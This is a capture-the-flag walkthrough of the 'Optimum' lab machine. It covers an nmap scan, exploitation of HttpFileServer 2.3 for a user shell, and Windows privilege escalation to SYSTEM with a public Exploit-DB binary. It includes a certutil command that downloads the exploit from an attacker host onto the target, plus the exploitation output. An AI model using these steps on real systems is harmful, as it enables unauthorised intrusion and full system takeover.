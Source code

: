 first enumeration with nmap

```
# Nmap 7.93 scan initiated Tue May 16 07:40:40 2023 as: nmap -sC -sV -T4 -oN normal.txt -p 80 -Pn 10.10.10.8
Nmap scan report for 10.10.10.8
Host is up (0.15s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue May 16 07:40:54 2023 -- 1 IP address (1 host up) scanned in 13.53 seconds
```
we have only one port available.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/21e41466-787a-4458-86d9-ed95b681df11)

opening the IP on a browser we got directed to a service running `HttpFileServer 2.3`. let's check for exploit.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/28a1a4d4-19ac-45a2-ad77-8accebe1e70b)

found an exploit on exploitdb. [exploit](https://www.exploit-db.com/exploits/49584)

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/20f5dd6f-244e-440a-888c-ef692a3a7bbf)

make some changes in the exploit. let's run it.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/e22327bd-2512-42b5-8465-bf6267fe3bdd)

ran the exploit and boom got shell as `optimum\kostas`


## Privilege Escalation

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/defea30f-a6a1-40e1-a47c-c569341bd6c3)

checking systeminfo, we can see the OS version is `6.3.9600 N/A Build 9600`, let's check for exploit online.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/c4fbc557-30c5-434a-af8f-9007073da1c4)

found an exploit on [exploitdb](https://www.exploit-db.com/exploits/41020).

```
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/HTB/Optimum]
└─$ wget https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/41020.exe
--2023-05-16 20:33:32--  https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/41020.exe
Resolving gitlab.com (gitlab.com)... 172.65.251.78, 2606:4700:90:0:f22e:fbec:5bed:a9b9
Connecting to gitlab.com (gitlab.com)|172.65.251.78|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 560128 (547K) [application/octet-stream]
Saving to: ‘41020.exe’

41020.exe                                 100%[====================================================================================>] 547.00K  1.02MB/s    in 0.5s    

2023-05-16 20:33:33 (1.02 MB/s) - ‘41020.exe’ saved [560128/560128]
```
downloaded the exe binary file.

```
certutil -urlcache -f http://10.10.14.14/41020.exe 41020.exe
```
Send the binary exploit to the target.

```
C:\Users\kostas\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is EE82-226D

 Directory of C:\Users\kostas\Desktop

23/05/2023  07:37     <DIR>          .
23/05/2023  07:37     <DIR>          ..
23/05/2023  07:31            560.128 41020.exe
23/05/2023  06:08              1.048 47558.py
18/03/2017  03:11            760.320 hfs.exe
23/05/2023  07:16             13.893 Invoke-MS16032.ps1
23/05/2023  07:14             11.461 privesc.ps1
23/05/2023  07:37             73.802 shell.exe
23/05/2023  12:53                 34 user.txt
23/05/2023  05:11                334 windowsprivchecker.bat
               8 File(s)      1.421.020 bytes
               2 Dir(s)   5.651.222.528 bytes free

C:\Users\kostas\Desktop>.\41020.exe
.\41020.exe
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Desktop>whoami
whoami
nt authority\system

C:\Users\kostas\Desktop>
```
ran the exploit and boom got `nt authority\system`

